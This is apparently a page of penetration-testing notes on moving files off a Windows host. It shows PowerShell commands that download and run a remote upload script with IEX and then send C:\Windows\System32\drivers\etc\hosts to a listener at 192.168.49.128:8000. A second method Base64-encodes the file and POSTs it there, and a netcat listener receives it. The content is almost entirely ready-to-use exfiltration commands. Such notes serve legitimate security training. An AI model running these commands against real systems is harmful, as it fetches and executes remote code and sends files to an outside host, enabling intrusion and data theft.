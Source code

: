 ### **PowerShell Script to Upload a File to Python Upload Server**

{% code overflow="wrap" %}
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
{% endcode %}

{% code overflow="wrap" %}
```
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

### PowerShell Base64 Web Upload

{% code overflow="wrap" %}
```
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```
{% endcode %}

{% code overflow="wrap" %}
```
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
nc -lvnp 8000
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>
